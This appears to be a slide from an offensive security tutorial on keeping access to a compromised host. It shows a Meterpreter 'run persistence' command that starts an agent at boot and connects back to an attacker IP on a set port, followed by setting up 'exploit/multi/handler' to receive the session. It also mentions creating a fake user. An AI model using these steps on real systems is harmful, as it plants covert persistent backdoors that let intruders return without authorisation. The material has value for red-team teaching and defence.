

# Implement backdoor for Maintain Access
Let’s assume that the target is restarted, or moved another network or patched the vulnerability that we have exploited. Now for further operation on that network we need to maintain the access by creating a fake user or implementing backdoor as persistence.
Meterpreter> run persistence  -X -i 5 -p 4446 -r 192.168.31.103   (-A = starts the handler on our  machine / -X start agent at boot / -I = interval for here 5 sec / -p = port / -r =  Remote ip that’s mean attacker ip)
Now we run multi handler and wait for the connection. When victim restart the machine then we get the session without exploit any vulnerability.
msf6> use exploit/multi/handler